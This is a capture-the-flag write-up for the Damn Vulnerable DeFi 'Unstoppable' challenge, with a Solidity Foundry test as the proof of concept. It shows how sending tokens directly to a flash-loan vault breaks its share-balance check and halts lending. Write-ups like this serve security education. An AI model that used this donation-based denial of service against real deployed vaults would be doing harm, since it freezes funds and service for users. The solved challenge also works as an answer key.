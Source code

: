# Challenge - Unstoppable

There’s a tokenized vault with a million DVT tokens deposited. It’s offering flash loans for free, until the grace period ends.

To catch any bugs before going 100% permissionless, the developers decided to run a live beta in testnet. There’s a monitoring contract to check liveness of the flashloan feature.

## Objective of CTF

Starting with 10 DVT tokens in balance, show that it’s possible to halt the vault. It must stop offering flash loans.

## Analysis

To stop the UnstoppableVault from providing flash loans normally, we need to examine whether any of the conditions in the flashLoan function can be made to fail, triggering a revert. The function can revert under the following four conditions:

-   The provided amount is 0.
-   The provided token does not equal the asset variable.
-   convertToShares(totalSupply) does not equal totalAssets().
-   The callback to the receiver's onFlashLoan function does not correctly return keccak256("IERC3156FlashBorrower.onFlashLoan").

Upon closer inspection, conditions 1, 2, and 4 are all determined by the caller's inputs and will trigger a revert based on those inputs. However, condition 3 is tied to the totalAssets() function, which returns the balance of the asset token in the UnstoppableVault. We can manipulate this condition by directly transferring the asset token into the UnstoppableVault contract, causing the calculated shares to mismatch with the actual balance. This discrepancy will result in an InvalidBalance error whenever anyone attempts to call the flashLoan function.

### Attack steps:

1. transfer the token to the vault directly.

## PoC test case

```code=solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {Test, console} from "forge-std/Test.sol";
import {DamnValuableToken} from "../../src/DamnValuableToken.sol";
import {UnstoppableVault, Owned} from "../../src/unstoppable/UnstoppableVault.sol";
import {UnstoppableMonitor} from "../../src/unstoppable/UnstoppableMonitor.sol";

contract UnstoppableChallenge is Test {
    address deployer = makeAddr("deployer");
    address player = makeAddr("player");
    address monitor = makeAddr("monitor");

    uint256 constant TOKENS_IN_VAULT = 1_000_000e18;
    uint256 constant INITIAL_PLAYER_TOKEN_BALANCE = 10e18;

    DamnValuableToken public token;
    UnstoppableVault public vault;
    UnstoppableMonitor public monitorContract;

    modifier checkSolvedByPlayer() {
        vm.startPrank(player, player);
        _;
        vm.stopPrank();
        _isSolved();
    }

    /**
     * SETS UP CHALLENGE - DO NOT TOUCH
     */
    function setUp() public {
        startHoax(deployer);
        // Deploy token and vault
        token = new DamnValuableToken();
        vault = new UnstoppableVault({_token: token, _owner: deployer, _feeRecipient: deployer});

        // Deposit tokens to vault
        token.approve(address(vault), TOKENS_IN_VAULT);
        vault.deposit(TOKENS_IN_VAULT, address(deployer));

        // Fund player's account with initial token balance
        token.transfer(player, INITIAL_PLAYER_TOKEN_BALANCE);

        // Deploy monitor contract and grant it vault's ownership
        monitorContract = new UnstoppableMonitor(address(vault));
        vault.transferOwnership(address(monitorContract));

        // Monitor checks it's possible to take a flash loan
        vm.expectEmit();
        emit UnstoppableMonitor.FlashLoanStatus(true);
        monitorContract.checkFlashLoan(100e18);

        vm.stopPrank();
    }

    /**
     * VALIDATES INITIAL CONDITIONS - DO NOT TOUCH
     */
    function test_assertInitialState() public {
        // Check initial token balances
        assertEq(token.balanceOf(address(vault)), TOKENS_IN_VAULT);
        assertEq(token.balanceOf(player), INITIAL_PLAYER_TOKEN_BALANCE);

        // Monitor is owned
        assertEq(monitorContract.owner(), deployer);

        // Check vault properties
        assertEq(address(vault.asset()), address(token));
        assertEq(vault.totalAssets(), TOKENS_IN_VAULT);
        assertEq(vault.totalSupply(), TOKENS_IN_VAULT);
        assertEq(vault.maxFlashLoan(address(token)), TOKENS_IN_VAULT);
        assertEq(vault.flashFee(address(token), TOKENS_IN_VAULT - 1), 0);
        assertEq(vault.flashFee(address(token), TOKENS_IN_VAULT), 50000e18);

        // Vault is owned by monitor contract
        assertEq(vault.owner(), address(monitorContract));

        // Vault is not paused
        assertFalse(vault.paused());

        // Cannot pause the vault
        vm.expectRevert("UNAUTHORIZED");
        vault.setPause(true);

        // Cannot call monitor contract
        vm.expectRevert("UNAUTHORIZED");
        monitorContract.checkFlashLoan(100e18);
    }

    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_unstoppable() public checkSolvedByPlayer {
        // transfer token to the vault directly
        token.transfer(address(vault), INITIAL_PLAYER_TOKEN_BALANCE);
    }

    /**
     * CHECKS SUCCESS CONDITIONS - DO NOT TOUCH
     */
    function _isSolved() private {
        // Flashloan check must fail
        vm.prank(deployer);
        vm.expectEmit();
        emit UnstoppableMonitor.FlashLoanStatus(false);
        monitorContract.checkFlashLoan(100e18);

        // And now the monitor paused the vault and transferred ownership to deployer
        assertTrue(vault.paused(), "Vault is not paused");
        assertEq(vault.owner(), deployer, "Vault did not change owner");
    }
}
```
